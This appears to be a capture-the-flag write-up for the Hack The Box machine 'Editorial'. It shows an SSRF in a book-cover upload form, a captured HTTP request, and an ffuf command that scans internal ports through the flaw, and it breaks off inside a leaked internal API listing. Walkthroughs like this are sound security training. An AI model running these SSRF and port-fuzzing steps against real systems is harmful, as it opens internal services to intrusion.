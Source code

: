 ![[/assets/images/editorial3.png]]

![[/assets/images/editorial4.png]]
# Screenshots
![[/assets/images/editorial1.png]]

http://editorial.htb/upload
![[/assets/images/editorial2.png]]

`Preview` button is vulnerable to SSRF.
![[/assets/images/editorial5.png]]

Add `http://127.0.0.1` under bookurl.
Still vulnerable.
![[/assets/images/editorial6.png]]
Save the header as as `req.txt`

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 302
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi7yH97Mb8QNIw8t3
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

## Port Fuzzing

- Right click -> Copy to file -> req.txt
![[/assets/images/editorial9.png]]

```sh
ffuf -u http://editorial.htb/upload-cover -X POST -request req.txt -w ports.txt -fs 61
```

![[/assets/images/editorial10.png]]
![[/assets/images/editorial11.png]]

![[/assets/images/editorial12.png]]

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
```